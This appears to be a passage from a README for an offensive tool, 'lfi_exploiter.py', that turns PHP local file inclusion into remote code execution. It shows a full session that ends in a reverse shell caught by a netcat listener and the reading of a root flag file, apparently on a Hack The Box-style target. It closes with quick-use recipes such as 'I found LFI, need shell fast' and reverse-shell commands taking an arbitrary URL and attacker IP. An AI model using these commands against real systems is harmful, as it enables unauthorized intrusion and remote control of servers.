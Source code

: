 ```bash
# Terminal 1: Run the tool
$ python3 lfi_exploiter.py -u http://target.com/page.php -p file --auto

[PHASE 1] PHP Configuration Check
✓ allow_url_include = On

[PHASE 2] LFI Vulnerability Test  
✓ LFI vulnerability confirmed!

[PHASE 3.2] Testing data:// Wrapper
✓ data:// wrapper (base64) RCE successful!

[SUCCESS] RCE Achieved!

[?] What would you like to do?
  1) Interactive shell
  2) Reverse shell
  3) Exit

Choice [1]: 2

Enter your IP: 10.10.10.1
Enter your port [4444]: 4444

[*] Attempting reverse shell connection...
[+] Payload sent! Check your listener.

# Terminal 2: Your listener
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.10.1] from target.com [10.10.10.50] 54321

www-data@target:~$ whoami
www-data

www-data@target:~$ cat /root/flag.txt
HTB{...}
```

---

## 🎯 Common Scenarios

### Scenario: "I found LFI, need shell fast"
```bash
python3 lfi_exploiter.py -u <URL> -p <param> --auto --shell
```

### Scenario: "I want reverse shell"
```bash
# Terminal 1
nc -lvnp 4444

# Terminal 2
python3 lfi_exploiter.py -u <URL> -p <param> --auto --revshell --lhost <YOUR_IP>
```
